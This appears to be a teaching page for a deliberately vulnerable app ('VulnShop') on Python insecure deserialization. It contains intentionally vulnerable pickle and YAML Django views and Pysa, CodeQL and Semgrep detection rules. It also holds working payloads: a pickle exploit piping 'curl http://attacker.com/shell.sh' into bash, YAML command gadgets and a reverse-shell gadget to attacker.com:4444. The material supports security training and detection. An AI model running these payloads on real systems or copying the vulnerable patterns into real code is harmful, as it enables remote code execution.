

# Insecure Deserialization

**Insecure Deserialization** occurs when applications deserialize data from untrusted sources without proper validation. Attackers can manipulate serialized objects to execute arbitrary code, bypass authentication, or perform other malicious actions.

## Overview

| Attribute | Value |
|-----------|-------|
| **CWE** | [CWE-502: Deserialization of Untrusted Data](https://cwe.mitre.org/data/definitions/502.html) |
| **OWASP** | A08:2021 - Software and Data Integrity Failures |
| **Severity** | Critical (CVSS 9.8) |
| **Impact** | Remote Code Execution |

## How It Works



### Python Pickle Exploitation

```python
import pickle
import os

class Exploit:
    def __reduce__(self):
        return (os.system, ('whoami',))

# Create malicious payload
payload = pickle.dumps(Exploit())

# When victim deserializes:
pickle.loads(payload)  # Executes 'whoami'
```

## VulnShop Implementation

### Location: Session Import

**File:** `profile/views.py:45-65`

```python
import pickle
import base64
from django.http import JsonResponse

def import_preferences(request):
    if request.method == 'POST':
        data = request.POST.get('preferences')

        try:
            # VULNERABLE: Pickle deserialization of user input
            decoded = base64.b64decode(data)
            preferences = pickle.loads(decoded)

            # Apply preferences
            request.session['theme'] = preferences.get('theme', 'light')
            request.session['language'] = preferences.get('language', 'en')

            return JsonResponse({'status': 'success'})
        except Exception as e:
            return JsonResponse({'error': str(e)}, status=400)
```

**Attack URL:** `/profile/import-preferences/`

**Exploit:**

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        return (os.system, ('curl http://attacker.com/shell.sh | bash',))

payload = base64.b64encode(pickle.dumps(RCE())).decode()

# Send to vulnerable endpoint
import requests
requests.post(
    'http://localhost:8000/profile/import-preferences/',
    data={'preferences': payload}
)
```

### Location 2: YAML Configuration Import

**File:** `admin_panel/views.py:80-100`

```python
import yaml

def import_config(request):
    if request.method == 'POST':
        config_data = request.POST.get('config')

        # VULNERABLE: yaml.load without safe_load
        config = yaml.load(config_data)

        # Apply configuration
        apply_settings(config)
        return JsonResponse({'status': 'success'})
```

**YAML Exploit:**

```yaml
!!python/object/apply:os.system
args: ['id > /tmp/pwned']
```

## Dangerous Deserializers

### Python

| Function | Risk Level | Safe Alternative |
|----------|------------|------------------|
| `pickle.loads()` | Critical | `json.loads()` |
| `pickle.load()` | Critical | `json.load()` |
| `yaml.load()` | Critical | `yaml.safe_load()` |
| `yaml.unsafe_load()` | Critical | `yaml.safe_load()` |
| `marshal.loads()` | High | `json.loads()` |
| `shelve.open()` | High | Database/JSON |

### Other Languages

```java
// Java
ObjectInputStream.readObject()  // Dangerous
XMLDecoder.readObject()         // Dangerous

// PHP
unserialize()                   // Dangerous

// Ruby
Marshal.load()                  // Dangerous
YAML.load()                     // Dangerous

// .NET
BinaryFormatter.Deserialize()   // Dangerous
XmlSerializer (with types)      // Dangerous
```

## Detection by Tool

### Pysa Detection

**Rule Code:** 5007

```python
# models/deserialization_sinks.pysa
def pickle.loads(
    data: TaintSink[Deserialization]
): ...

def pickle.load(
    file: TaintSink[Deserialization]
): ...

def yaml.load(
    stream: TaintSink[Deserialization],
    Loader = ...
): ...

def yaml.unsafe_load(
    stream: TaintSink[Deserialization]
): ...

def marshal.loads(
    data: TaintSink[Deserialization]
): ...
```

### CodeQL Detection

**Query:** `deserialization.ql`

```ql
class DeserializationConfig extends TaintTracking::Configuration {
  DeserializationConfig() { this = "DeserializationConfig" }

  override predicate isSource(DataFlow::Node source) {
    source instanceof RemoteFlowSource
  }

  override predicate isSink(DataFlow::Node sink) {
    exists(Call call |
      (
        call.getFunc().(Attribute).getName() in ["loads", "load"] and
        call.getFunc().(Attribute).getObject().(Name).getId() = "pickle"
      )
      or
      (
        call.getFunc().(Attribute).getName() in ["load", "unsafe_load"] and
        call.getFunc().(Attribute).getObject().(Name).getId() = "yaml"
      )
    ) and
    sink.asExpr() = call.getArg(0)
  }
}
```

### Semgrep Detection

**Rule:** `insecure-deser.yml`

```yaml
rules:
  - id: pickle-deserialization
    pattern-either:
      - pattern: pickle.loads($DATA)
      - pattern: pickle.load($FILE)
    message: >
      Pickle deserialization of untrusted data can lead to remote code execution.
      Use JSON or implement safe deserialization.
    severity: ERROR
    languages: [python]
    metadata:
      cwe: "CWE-502"

  - id: yaml-unsafe-load
    pattern-either:
      - pattern: yaml.load($DATA)
      - pattern: yaml.load($DATA, Loader=yaml.Loader)
      - pattern: yaml.load($DATA, Loader=yaml.UnsafeLoader)
      - pattern: yaml.unsafe_load($DATA)
    message: >
      Unsafe YAML loading can execute arbitrary code.
      Use yaml.safe_load() instead.
    severity: ERROR
    languages: [python]
```

## Remediation

### 1. Use Safe Formats (Recommended)

```python
import json

def import_preferences(request):
    data = request.POST.get('preferences')

    try:
        # SAFE: JSON cannot execute code
        preferences = json.loads(data)

        # Validate expected structure
        if not isinstance(preferences, dict):
            raise ValueError("Invalid format")

        allowed_keys = {'theme', 'language', 'timezone'}
        preferences = {k: v for k, v in preferences.items() if k in allowed_keys}

        # Apply preferences
        request.session.update(preferences)
        return JsonResponse({'status': 'success'})
    except json.JSONDecodeError:
        return JsonResponse({'error': 'Invalid JSON'}, status=400)
```

### 2. Use yaml.safe_load()

```python
import yaml

def import_config(request):
    config_data = request.POST.get('config')

    # SAFE: safe_load only allows basic types
    config = yaml.safe_load(config_data)

    # Validate structure
    if not isinstance(config, dict):
        return JsonResponse({'error': 'Invalid config'}, status=400)

    apply_settings(config)
    return JsonResponse({'status': 'success'})
```

### 3. HMAC Signing for Pickle (If Required)

```python
import pickle
import hmac
import hashlib

SECRET_KEY = b'your-secret-key'

def sign_data(data):
    pickled = pickle.dumps(data)
    signature = hmac.new(SECRET_KEY, pickled, hashlib.sha256).hexdigest()
    return {'data': pickled.hex(), 'signature': signature}

def verify_and_load(signed_data):
    pickled = bytes.fromhex(signed_data['data'])
    expected_sig = hmac.new(SECRET_KEY, pickled, hashlib.sha256).hexdigest()

    if not hmac.compare_digest(signed_data['signature'], expected_sig):
        raise ValueError("Invalid signature")

    return pickle.loads(pickled)
```

### 4. Restricted Unpickler

```python
import pickle
import io

ALLOWED_CLASSES = {
    ('builtins', 'dict'),
    ('builtins', 'list'),
    ('builtins', 'str'),
    ('builtins', 'int'),
    ('builtins', 'float'),
    ('builtins', 'bool'),
    ('builtins', 'NoneType'),
}

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if (module, name) not in ALLOWED_CLASSES:
            raise pickle.UnpicklingError(f"Forbidden: {module}.{name}")
        return super().find_class(module, name)

def safe_loads(data):
    return RestrictedUnpickler(io.BytesIO(data)).load()
```

## Detection Comparison

| Tool | Pickle | YAML | Marshal |
|------|:------:|:----:|:-------:|
| Pysa | ✅ | ✅ | ✅ |
| CodeQL | ✅ | ✅ | ✅ |
| Semgrep | ✅ | ✅ | ✅ |

## Attack Gadgets

### Python Pickle Gadgets

```python
# Command execution via __reduce__
class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ('command',))

# Using subprocess
class Exploit2:
    def __reduce__(self):
        import subprocess
        return (subprocess.check_output, (['id'],))

# Reverse shell
class ReverseShell:
    def __reduce__(self):
        import socket, subprocess, os
        return (os.dup2, (
            socket.socket(socket.AF_INET, socket.SOCK_STREAM).connect(('attacker.com', 4444)),
            0
        ))
```

### YAML Gadgets

```yaml
# Command execution
!!python/object/apply:os.system ['id']

# Subprocess
!!python/object/apply:subprocess.check_output [['id']]

# Read file
!!python/object/apply:builtins.open ['flag.txt']
```

## Testing Checklist

- [ ] Session handling
- [ ] Cookie values
- [ ] Hidden form fields
- [ ] API request bodies
- [ ] File imports/exports
- [ ] Configuration loading
- [ ] Cache systems
- [ ] Message queues
- [ ] JWT tokens (custom deserializers)

## References

- [OWASP Deserialization Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)
- [CWE-502](https://cwe.mitre.org/data/definitions/502.html)
- [PortSwigger Insecure Deserialization](https://portswigger.net/web-security/deserialization)
- [Python Pickle Security](https://docs.python.org/3/library/pickle.html#restricting-globals)
